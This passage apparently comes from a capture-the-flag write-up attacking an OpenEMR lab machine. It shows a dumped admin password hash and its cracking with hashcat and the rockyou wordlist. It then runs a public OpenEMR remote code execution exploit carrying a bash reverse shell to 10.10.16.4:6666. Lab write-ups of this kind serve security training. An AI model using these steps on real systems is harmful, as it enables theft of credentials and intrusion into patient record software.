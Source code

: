 ```
Database: openemr
Table: users_secure
[1 entry]
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| id | salt    | password                                                     | username | last_update         | salt_history1 | salt_history2 | password_history1              | password_history2 |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
| 1  | <blank> | $2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B. | <blank>  | 2019-11-21 06:38:40 | <blank>       | <blank>       | $2a$05$l2sTLIG6GTBeyBf7TAKL6A$ | openemr_admin     |
+----+---------+--------------------------------------------------------------+----------+---------------------+---------------+---------------+--------------------------------+-------------------+
<SNIP>
```

- Crack it using `hashcat`
```
└─$ hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt      
hashcat (v6.2.6) starting
<SNIP>

$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.:xxxxxx
                                                          
<SNIP>
```

- Let's try to get a reverse shell using `RCE` exploit
```
└─$ python2.7 45161.py -u openemr_admin -p xxxxxx -c 'bash -c "bash -i >& /dev/tcp/10.10.16.4/6666 0>&1"' http://hms.htb
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```

![](./images/12.png)
